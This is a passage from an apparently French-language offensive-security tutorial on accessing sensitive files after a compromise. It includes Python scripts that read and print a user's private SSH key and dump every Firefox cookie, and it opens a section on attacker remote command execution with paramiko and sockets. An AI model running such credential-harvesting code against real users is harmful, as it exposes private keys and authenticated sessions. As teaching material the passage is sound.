 Les **fichiers sensibles** comme `/etc/passwd` et les **clés SSH** contiennent des informations critiques sur les utilisateurs et la configuration du système. Leur accès permet à un attaquant de compromettre davantage le système.

#### **Notions à maîtriser :**
- **Fichier `/etc/passwd`** : Contient des informations sur les utilisateurs et leurs groupes.
- **Fichier `/etc/shadow`** : Contient les informations des mots de passe cryptés des utilisateurs (généralement accessible uniquement aux super-utilisateurs).
- **Clés SSH** : Les clés privées SSH sont essentielles pour les connexions distantes et permettent d’accéder à des systèmes de manière privilégiée.
- **Cookies et fichiers de session** : Peuvent contenir des informations sur les connexions actives et des sessions authentifiées.

#### **Exemples pratiques :**
- **Extraction des clés SSH (fichier `~/.ssh/id_rsa`):**
    ```python
    def get_ssh_keys():
        with open('/home/user/.ssh/id_rsa', 'r') as file:
            ssh_key = file.read()
        print("SSH Private Key: \n", ssh_key)
    get_ssh_keys()
    ```
    Ce script ouvre et lit la clé SSH privée de l'utilisateur.

- **Extraction des cookies depuis un navigateur :**
    ```python
    import os
    import sqlite3

    def get_browser_cookies():
        cookie_db_path = os.path.expanduser('~/.mozilla/firefox/your_profile/cookies.sqlite')
        conn = sqlite3.connect(cookie_db_path)
        cursor = conn.cursor()
        cursor.execute('SELECT * FROM moz_cookies')
        cookies = cursor.fetchall()
        for cookie in cookies:
            print(cookie)  # Affiche chaque cookie
        conn.close()

    get_browser_cookies()
    ```
    Ce script récupère les cookies du navigateur Firefox stockés dans une base de données SQLite.

---

### **3. Exécution de commandes distantes avec `paramiko` et `sockets`**

Une fois qu'un attaquant a compromis un système, il peut vouloir exécuter des commandes à distance sur le système cible pour exfiltrer des informations ou obtenir un contrôle plus poussé.

#### **Notions à maîtriser :**
- **Utilisation de `paramiko` pour SSH** : Permet d'exécuter des commandes à distance sur un serveur via SSH.
- **Utilisation de `sockets` pour l'exécution de commandes à distance** : Permet d'établir une communication via un socket réseau pour envoyer des commandes et récupérer des informations.
